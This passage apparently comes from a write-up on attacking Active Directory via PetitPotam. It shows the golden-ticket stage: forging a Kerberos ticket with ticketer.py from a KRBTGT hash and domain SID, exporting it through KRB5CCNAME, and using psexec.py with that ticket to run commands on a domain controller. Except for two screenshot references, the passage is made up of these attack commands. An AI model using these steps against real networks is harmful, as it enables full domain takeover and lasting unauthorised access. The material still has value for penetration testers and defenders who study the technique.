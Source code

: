 
Golden ticket creation: 
```bash
ticketer.py -nthash <KRBTGT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_FQDN> <CAN_BE_NON_EXISTING_USERNAME>
```

![golden-ticket-created](/assets/petitpotam/golden-ticket-created.jpg)

Exporting ticket to the environment: 
```bash
export KRB5CCNAME=/<CHOSEN_USERNAME>.ccache
```

Command execution using ticket: 
```bash
psexec.py <DOMAIN_FQDN>/<CHOSEN_USERNAME>@<DC_FQDN> -k -no-pass
```

![golden-ticket-used](/assets/petitpotam/golden-ticket-used.jpg)

---